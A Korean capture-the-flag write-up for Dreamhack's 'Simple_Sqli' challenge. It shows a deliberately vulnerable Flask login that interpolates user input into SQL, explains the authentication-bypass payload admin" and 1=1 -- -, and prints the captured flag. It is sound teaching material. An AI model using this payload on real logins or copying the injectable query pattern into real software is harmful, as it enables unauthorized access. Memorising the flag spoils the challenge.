

# WarGame - Simple_Sqli

## 1. 문제 정보

- [Dreamhack - Simple_Sqli](https://dreamhack.io/wargame/challenges/24)
- 문제명: `Simple_Sqli`
- 분야: Web Hacking / SQL Injection
- 목표: SQL Injection을 이용하여 관리자 계정으로 로그인하고 FLAG를 획득한다.

---

## 2. 풀이

### 2-1. 발급받은 서버 접속

http://host3.dreamhack.games:16340/

### 2-2. 코드 확인

```python
#!/usr/bin/python3

from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)

app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"

if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(
        f'insert into users(userid, userpassword) values '
        f'("guest", "guest"), '
        f'("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}")'
    )
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)

    if db is None:
        db = g._database = sqlite3.connect(DATABASE)

    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)

    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')

        res = query_db(
            f'select * from users where userid="{userid}" '
            f'and userpassword="{userpassword}"'
        )

        if res:
            userid = res[0]

            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'

            return f'<script>alert("hello {userid}");history.go(-1);</script>'

        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

### 2-3. 코드 분석

SQLite DBMS에 연결 후 `userid`와 `userpassword` 컬럼을 가진 `users`라는 테이블을 생성하고 있다.

```sql
create table users(
    userid char(100),
    userpassword char(100)
);
```

그 후 `guest`와 `admin` 계정 레코드를 삽입한다.

```text
users
├── guest / guest
└── admin / 랜덤한 비밀번호
```

`admin`의 비밀번호는 다음과 같이 랜덤한 문자열로 설정되어 있다.

```python
binascii.hexlify(os.urandom(16)).decode("utf8")
```

> > admin 계정의 비밀번호는 유추하기 어렵다. admin 계정으로 로그인하기 위해 필요한 password 정보가 없기 때문에 이를 우회하기 위한 SQL Injection Payload가 필요하다.

---

### 2-4. Login 페이지

코드 아래쪽에는 취약한 페이지인 `/login` 페이지에 대한 기능이 정의되어 있다.
로그인 페이지는 `POST` 메소드로 `userid`와 `userpassword`를 입력받는다.

```python
userid = request.form.get('userid')
userpassword = request.form.get('userpassword')
```

입력받은 값을 DB에 보낼 SQL Query에 그대로 삽입하여 전송한다.

```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

> > 여기에서 SQL Injection 취약점이 발생한다.

`userid` 부분 혹은 `userpassword` 부분에 SQL Injection Payload를 삽입해 제출한다면 사용자가 의도하지 않은 형태로 SQL Query를 변형할 수 있다.

우리의 목적은 admin 계정으로 로그인하는 것인데, admin 계정으로 로그인하기 위해 필요한 password 정보가 없기때문에, SQL Injection을 이용하여 password 검증을 우회한다.

---

## 3. SQL Injection Payload

다음과 같은 Payload를 `userid`로 전송한다.

```text
admin" and 1=1 -- -
```

`1=1`은 항상 참이 되는 조건이며, `-- -`를 이용하여 이후의 내용을 주석 처리할 수 있다.

---

## 4. Query 변조 과정

위와 같은 Payload를 `userid`로 전송하면 애플리케이션이 DB에 전송할 Query는 다음과 같이 형성된다.

```sql
select * from users where userid="admin" and 1=1 -- -" and userpassword="임의의 입력값"
```

본래 DB에 전송될 Query는 다음과 같다.

```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

본래 Query는 등록된 유저의 정보와 `userid`, `userpassword` 값이 모두 일치하는 값을 가져오도록 되어 있다.

이는 `userid`와 `userpassword`를 모두 검사한다는 의미이다.
하지만 위와 같이 조작된 Query는 다음과 같이 변형된다.

```sql
select * from users where userid="admin" and 1=1
```

`1=1`은 항상 참이므로 조건을 만족한다.

> > `-- -` 뒤의 내용은 주석 처리되기 때문에 기존의 다음 부분이 더 이상 유효하지 않게 된다.

```sql
and userpassword="임의의 입력값"
```

> > `userpassword`를 검사하는 부분이 주석 처리되어 더 이상 유효하지 않게 된다.
> > userid가 admin이기만 하면 비밀번호와는 전혀 상관없이 로그인할 수 있게 된다.

---

## 5. FLAG 획득

로그인 페이지에서 다음과 같이 입력한다.

### userid

```text
admin" and 1=1 -- -
```

### password

```text
임의의 값
```

입력값을 제출하면 SQL Injection을 통해 `userpassword` 조건이 주석 처리되고 `admin` 계정이 조회된다.

문제 코드에서는 조회된 `userid`가 `admin`인 경우 FLAG를 출력하도록 되어 있다.

```python
if userid == 'admin':
    return f'hello {userid} flag is {FLAG}'
```

따라서 admin 계정으로 로그인할 수 있고 FLAG를 획득할 수 있다.
hello admin flag is DH{c1126c8d35d8deaa39c5dd6fc8855ed0}

> > 얻은 FLAG: DH{c1126c8d35d8deaa39c5dd6fc8855ed0}
> > 

---

## 6. 풀이 과정

```text
문제 코드 확인
      ↓
SQLite DB 및 users 테이블 확인
      ↓
admin 계정의 비밀번호가 랜덤하게 생성되는 것을 확인
      ↓
/login에서 사용자 입력값이 SQL Query에 직접 삽입되는 것을 확인
      ↓
SQL Injection 취약점 확인
      ↓
admin" and 1=1 -- - Payload 사용
      ↓
userpassword 조건 주석 처리
      ↓
userid가 admin인 계정 조회
      ↓
admin 계정 로그인
      ↓
FLAG 획득
```

---

## 7. 전체 정리

- 사용자 입력값을 SQL Query에 직접 삽입하면 SQL Injection이 발생할 수 있다.
- `admin` 계정의 비밀번호가 랜덤하게 생성되어 있어 직접 알아내기 어렵다.
- SQL Injection을 이용하면 로그인 과정의 조건을 변형할 수 있다.
- `admin" and 1=1 -- -` Payload를 이용하여 `userpassword` 검증을 우회할 수 있다.
- `1=1`은 항상 참인 조건이다.
- `-- -` 뒤의 SQL Query는 주석 처리된다.
- 결과적으로 `userid="admin"` 조건만 남게 되어 admin 계정을 조회할 수 있다.
- 문제 코드에서 `userid`가 `admin`이면 FLAG가 출력된다.
